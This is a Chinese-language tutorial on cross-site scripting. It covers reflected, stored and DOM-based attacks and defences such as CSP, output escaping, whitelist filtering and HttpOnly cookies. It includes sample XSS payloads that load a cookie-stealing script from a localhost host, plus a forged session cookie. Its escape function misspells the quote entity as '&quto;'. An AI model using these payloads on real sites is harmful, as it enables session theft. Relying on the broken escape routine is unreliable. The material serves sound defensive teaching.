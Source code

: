 ## XSS攻击和防御手段

##### XSS攻击：跨站脚本攻击

> 跨站脚本攻击XSS（Cross Site Scripting),是最普遍的安全漏洞，通过向有安全漏洞的web网站运行非法的非本站的HTML标签和JavaScript脚本进行的一种攻击

**XSS攻击方式分类**

- 反射型：URL参数直接注入

   A.攻击者通过诱导用户点击恶意 URL， URL可能是这样：

   `http://localhost:3000/?from=<script>alert('我是一段恶意攻击脚本！')</script>`

   B.服务器接收到参数，将恶意代码取出拼接在用户 HTML 中，用户浏览器接收后进行执行，其中恶意代码 也被执行了。

  ```js
  // 普通 
  http://localhost:3000/?from=china 
  // alert尝试 
  http://localhost:3000/?from=<script>alert(3)</script> 
  // 获取Cookie 
  http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
  // 短域名伪造  https://dwz.cn/
  // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
  ```

- 存储型：存储到DB中，运行时执行存储的脚本达到注入目的

  假设场景：攻击者在评论中写入一段恶意脚本，其他用户访问评论类别时，恶意脚本便会获取到用户的信息

  ```js
  // 评论 
  <script>alert(1)</script>
  // 跨站脚本注入 
  我来了<script src="http://localhost:4000/hack.js"></script>
  ```

- Dom型：URL参数注入

  Dom型攻击和反射型类型类似，通过URL写入恶意脚本，区别是浏览器接受参数并且直接解析

 **XSS攻击危害**

- 获取页面数据
- 获取用户Cookies
- 劫持前端逻辑
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户

**XSS防御手段**

1. X-XSS-Protection

   > HTTP X-XSS-Protection 响应头是 Internet Explorer，Chrome 和 Safari 的一个特性，当检测到跨站脚本攻击 (XSS)时，浏览器将停止加载页面。
   > 配置参数：
   > 0 - 禁止 XSS 过滤。
   > 1 - 启用 XSS 过滤（通常浏览器是默认的）。浏览器检测到攻击后将去除不安全部分
   > 1;mode=block - 启用 XSS 过滤，检测到攻击之后，不会清除不安全部分，而是阻止页面加载
   > 1;report= (Chromium only) - 启用XSS过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用CSP report-uri指令的功能发送违规报告。

2. CSP内容安全策略

   > **内容安全策略**（CSP content security Policy）是一个附加的安全层，用户帮助检测和缓解某些类型的攻击，包括跨站脚本（XSS）和数据注入的攻击。CSP本质上就是建立白领单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是浏览器自己实现的，通过这种方式可以减少XSS攻击。

   ```js
   // 只允许加载本站资源 
   Content-Security-Policy: default-src 'self' 
   // 只允许加载 HTTPS 协议图片 
   Content-Security-Policy: img-src https://* 
   // 不允许加载任何来源框架 
   Content-Security-Policy: child-src 'none'
   ```

   ```js
   ctx.set('Content-Security-Policy',"default-src 'self'")
   // 尝试一下外部资源不能加载 
   http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
   ```

   

3. 转义字符

   **黑名单**

   > 用户输入的永远不可信任，最普遍的做法就是转义输入输出内容，对于引号，尖括号，斜杠进行转义

   ```js
   function escape(str) { 
     str = str.replace(/&/g, '&amp;') 
     str = str.replace(/</g, '&lt;') 
     str = str.replace(/>/g, '&gt;') 
     str = str.replace(/"/g, '&quto;') 
     str = str.replace(/'/g, '&#39;') 
     str = str.replace(/`/g, '&#96;') 
     str = str.replace(/\//g, '&#x2F;') 
     return str 
   }
   ```

   > 对于富文本来说，显然不能通过上述的方法转义所有的字符，因为这样会把已有的格式给转义掉。这种情况需要通过白名单的方式过滤，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。

   ****

   **白名单**

   ```js
   const xss = require('xss') 
   let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>') 
   // --> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
   ```

4. httpOnly Cookie

   > 这是预防XSS攻击截取用户cookie最有效的防御手段。web应用程序在设置Cookie时，将其属性设置为HttpOnly,就可以避免网页的Cookie被客户端恶意的javascript窃取，从而保护用户cookie信息

   ```js
   response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
   ```

**相关资料**

# [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)

